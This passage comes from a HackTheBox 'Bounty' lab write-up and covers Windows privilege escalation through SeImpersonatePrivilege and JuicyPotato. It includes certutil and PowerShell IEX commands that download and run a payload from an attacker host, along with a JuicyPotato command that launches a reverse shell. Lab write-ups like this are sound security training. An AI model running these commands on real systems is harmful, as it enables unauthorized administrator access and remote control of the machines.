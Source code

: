 ```py
if __name__ == '__main__':
    main()
```

# Privilege Escalation

Now that we have the reverse shell automated on this machine, let's get the administrator on this box

Running the command `whoami /priv` we see that our user has `SeImpersonatePrivilege` enabled

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2012:41:57.png)

So we can use the `JuicyPotato` to get administrator

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2012:45:14.png)

`https://ohpe.it/juicy-potato/`

`https://github.com/ohpe/juicy-potato/releases/tag/v0.1`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2012:47:10.png)

We download it on our machine

`certutil -urlcache -split -f http://10.10.14.18:8000/JuicyPotato.exe C:\Users\Public\JuicyPotato.exe`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2012:51:48.png)

We create our call

`"IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.18:8000/Invoke-PowerShellTcp.ps1')"`

`certutil -urlcache -split -f http://10.10.14.18:8000/reverse.bat C:\Users\Public\reverse.bat`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2001:09:44.png)

Now we execute

```ps
.\JuicyPotato.exe -t * -p .\reverse.bat -l 1111
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2001:12:52.png)